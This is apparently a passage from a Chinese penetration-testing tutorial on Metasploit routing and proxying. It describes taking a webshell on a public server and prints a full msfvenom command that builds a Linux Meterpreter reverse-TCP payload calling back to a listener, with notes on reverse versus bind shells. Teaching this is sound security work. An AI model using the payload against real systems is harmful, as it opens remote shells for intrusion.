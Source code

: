 
## 四、实例讲解

### 案例-MSF路由转发/网络代理

1.拿到一台公网服务器的webshell权限

![22](.\images\12.jpg)

2.进一步拿到交互式shell

首先在kali中生成一个反向连接的shell.elf文件，如下图所示：

（注：类似下面的反向连接木马，可以使用bind_tcp载荷，开启正向连接木马。和反向连接的区别在于：
反向连接木马是攻击机开放端口，靶机连过来；正向连接木马是靶机开放端口，攻击机连过去；正向链接容易被防火墙拦截）

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.70.0.195 LPORT=4444 -f elf -o zshell.elf`

![22](.\images\22.jpg)
